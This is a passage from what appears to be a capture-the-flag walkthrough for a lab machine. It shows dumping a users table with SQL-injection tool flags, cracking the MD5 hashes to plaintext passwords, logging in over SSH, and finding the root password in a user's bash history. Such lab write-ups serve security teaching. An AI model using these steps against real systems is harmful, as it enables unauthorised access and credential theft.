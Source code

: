 ```
| identities                            |
| messages                              |
| users                                 |
+---------------------------------------+
```

We can specify the database we want to enumerate using the `-D ____` flag, and set the table using the `-T ____` flag. We can also list the password hashes using `--dump`. This will give us the output of:
```
+---------+-----------+----------------------------------+
| user_id | user_name | user_pass                        |
+---------+-----------+----------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 |
| 5       | sorzek    | 64d1f88b9b276aece4b0edcc25b7a434 |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f |
+---------+-----------+----------------------------------+
```

### Exploitation


Altough when we think of exploitation, we imagine gaining access to a machine through buffer overflows, remote code execution, cracking credentials and logging in with them is also exploitation. We can crack these hashes using HashCat, JohnTheRipper, or what I like to do is pass them into https://crackstation.net/. Crackstation is very quick, and doesn't use your computer's resources. It will give us plaintext passwords:
```
	 User				   Hash 					Type          Plaintext

	dstevens		02e823a15a392b5aa4ff4ccb9060fa68	md5		 ilike2surf
	achen    		b46265f1e7faa3beab09db5c28739380	md5		 seventysixers
	pmoore  		8f4743c04ed8e5f39166a81f26319bb5	md5		 Homesite
	jdurbin 		7c7bc9f465d86b8164686ebb5151a717	md5		 Sue1978
	sorzek  		64d1f88b9b276aece4b0edcc25b7a434	md5		 pacman
	ghighland		9f3eb3087298ff21843cc4e013cf355f	md5		 undone1
```

We can ssh to the target machine's users using the command `ssh user@$IP` (if you keep on getting an error message add the `-oKexAlgorithms=+diffie-hellman-group1-sha1` flag). Here is the information I gathered about each user:
```
Sudo Priviliges:
 
dstevens:   (ALL) ALL
achen:		(ALL) NOPASSWD: ALL
pmoore:		none
jdurbin:	none
sorzek:		none
ghighland:	none
```
From here, we can change the password of the `root` user, using either `dstevens` or `achen` account. We can also further enumerate and see that achen's `.bash_history` contains the root password:
```
[achen@ctf4 ~]$ cat .bash_history 
exit
clear
exit
sudo sy
su
root1234      <---- Here is the password!
su
exit
```